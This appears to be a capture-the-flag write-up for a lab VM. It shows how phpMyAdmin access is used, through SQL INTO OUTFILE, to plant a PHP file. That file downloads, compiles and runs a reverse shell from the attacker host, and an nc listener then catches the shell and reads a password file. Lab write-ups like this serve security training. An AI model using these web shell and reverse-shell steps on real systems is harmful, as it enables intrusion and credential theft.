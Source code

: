 # Writeup 5 - PHP Reverse Shell 

> This writeup takes from [Writeup 1](../writeup1/README.md), having discovered `phpmyadmin` credentials.

Another variation of PHP execution, this time creating a reverse shell instead of executing a commands.

First of all, I'm starting an http server on my host machine to serve the source file:
```bash
$ python3 -m http.server 9002
Serving HTTP on 0.0.0.0 port 9002 (http://0.0.0.0:9002/) ...
```

Then, we create our trigger file (we make sure to set the IP of our host machine):
```sql
SELECT "<?php system('rm -rf /tmp/reverse-shell.c && wget http://192.168.56.1:9002/reverse-shell.c -O /tmp/reverse-shell.c && gcc /tmp/reverse-shell.c -o /tmp/reverse-shell && /tmp/reverse-shell 192.168.56.1 9001'); ?>" INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

On our host, we run `nc` to listen to the port 9001:
```bash
nc -lvnp 9001
```

And finally, we visit the `run.php` file to execute our code, and we get a reverse shell:
```bash
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 192.168.56.103 56241
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

We can now go back to writeup 1 and connect to `lmezard`'s account via FTP.
